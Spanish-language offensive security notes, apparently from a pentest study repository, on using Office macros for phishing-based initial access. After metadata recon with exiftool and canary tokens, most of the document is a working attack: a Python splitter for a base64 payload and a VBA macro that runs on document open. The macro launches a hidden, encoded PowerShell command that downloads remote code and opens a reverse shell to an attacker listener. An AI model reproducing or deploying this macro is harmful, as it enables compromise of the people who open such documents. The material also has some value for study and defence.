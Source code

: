 # Intro

- Los macros de los productos de Office nos permiten inyectar código malicioso.
- Por cuestiones de seguridad, todo lo que haya sido descargado (sea de un mail o del navegador) estará bloqueado con el cartel de **habilitar edición** y el usuario deberá accionarlo para que el macro se ejecute.


# Recon

Podemos aprovechar cualquier documento (docs, pdfs,etc) para extraer información de la metadata y tener un conocimiento más profundo de las tecnologías y versiones utilizadas por la victima. Incluido, si es una empresa, el nombre de un user


    exiftool -a -u brochure.pdf



Podemos extraer más información usando canary token y haciendolo llegar a la víctima

    https://canarytokens.com/nest/

# Creando macros para reverseshell


- El macro debe estar guardado en un .doc o .docm; los .docx no permiten guardar el macro dentro del documento. Crear el documento y darle en el tipo "windows 97-2003"
- La opción de macros esta en view > macros
- Una vez generado el macro, creamos nuestro payload malicioso en base64 y lo dividimos en partes.

### Código en python para dividirlo

      str = "<payload>"
      
      n = 50
      
      for i in range(0, len(str), n):
      	print("Str = Str + " + '"' + str[i:i+n] + '"')

### Macro malicioso


    Sub AutoOpen()
        MyMacro
    End Sub
    
    Sub Document_Open()
        MyMacro
    End Sub
    
    Sub MyMacro()
        Dim Str As String
        
        Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
            Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
            Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
        ...
            Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
            Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
            Str = Str + "A== "
    
        CreateObject("Wscript.Shell").Run Str
    End Sub


### Ponemos un listener y esperamos que se vuelva a abrir.
